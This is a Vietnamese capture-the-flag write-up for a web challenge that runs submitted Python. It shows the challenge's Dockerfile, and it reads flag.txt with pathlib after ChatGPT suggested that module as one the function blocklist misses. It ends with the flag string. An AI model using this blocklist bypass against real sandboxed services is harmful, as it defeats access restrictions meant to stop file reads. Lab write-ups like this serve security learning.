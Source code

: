 # Solution

- Giao diện chính của web

![image](img/1.png)

- Đọc file `Dockerfile` thì thấy thư mục làm việc là `/app` và có 1 file `flag.txt` trong thư mục `/app`

```Dockerfile
FROM python:3.9-slim
WORKDIR /app
COPY src/requirements.txt .
RUN pip install --no-cache-dir -r requirements.txt
COPY src/ .
RUN chmod 644 /app/app.py
RUN chmod -R 755 /app/templates
RUN chmod 444 /app/flag.txt
RUN adduser --disabled-password --gecos "" appuser
RUN chown -R appuser:appuser /app
USER appuser
ENV FLASK_ENV=production
ENV PYTHONUNBUFFERED=1
EXPOSE 1003
CMD ["python", "app.py"]
```

- Bây giờ sẽ tìm cách code python để đọc file `flag.txt`

- Đọc sơ qua source code (app.py) thì thấy bị cấm hàm các hàm này để tránh việc đọc file hoặc RCE

![image](img/2.png)

- Nhờ **ChatGPT** để hỏi gợi ý về cách đọc các file trong python mà không cần dùng hàm bị cấm ở trên

![image](img/3.png)

- **ChatGPT** gợi ý sử dụng module `pathlib` để đọc file và trong code thì module `pathlib` được cho phép (ở dòng 70 trong app.py)

- Vậy nên sẽ sử dụng module `pathlib` để đọc file `flag.txt`

```python
import pathlib

path = pathlib.Path("flag.txt")
content = path.read_text(encoding="utf-8")
print(content)
```

- Giải captcha và chạy code

![image](img/4.png)

# Flag

`VSL{all0w_3sc4p3_1s_fun_hehe_00e0dcbd5!}`
